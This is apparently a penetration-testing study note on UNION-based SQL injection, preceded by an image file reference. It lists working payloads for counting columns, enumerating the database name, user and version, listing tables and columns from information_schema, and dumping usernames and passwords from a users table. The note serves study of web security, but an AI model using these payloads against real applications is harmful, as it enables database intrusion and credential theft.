
Whenever we're dealing with in-band SQL injections and the result of the query is displayed along with the application-returned value, we should also test for UNION-based SQL injections.

for union injection to work the query has to include the same number of columns as the original query and the data types need to be compatible between each column.

`' order by 1-- // ` - discover the correct number of columns. INCREMENT THE VALUE BY 1 EACH TIME UNTIL WE RECEIVE AN ERROR.

`%' union select database(), user(), @@version, null, null -- //` - enumerate database information. The `%` sign in this example is used to close a `LIKE` query. other queries may not require it. column 1 may be for the ID and you may need to shift the query columns.

`' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //` - display all tables and column names within database().

`' union select null, username, password, description, null from users -- //` - dump credentials from a database table.





